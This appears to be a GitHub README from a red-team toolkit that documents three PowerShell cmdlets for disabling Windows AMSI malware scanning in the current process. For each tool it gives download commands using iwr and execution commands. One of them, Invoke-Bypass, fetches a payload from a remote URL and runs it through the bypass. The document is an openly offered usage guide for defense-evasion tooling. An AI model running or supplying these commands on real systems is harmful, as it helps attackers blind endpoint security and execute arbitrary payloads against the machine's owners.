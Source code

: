 ## AMSBP.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

**execute:**
```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Disable-Amsi.ps1
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto-sellection)<br />[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

**execute:**
```powershell
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Invoke-Bypass.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process + exec script through bypass?|User Land|3 bypass technics available (manual)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

**execute:**
```powershell
Get-Help .\Invoke-Bypass.ps1 -full
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   
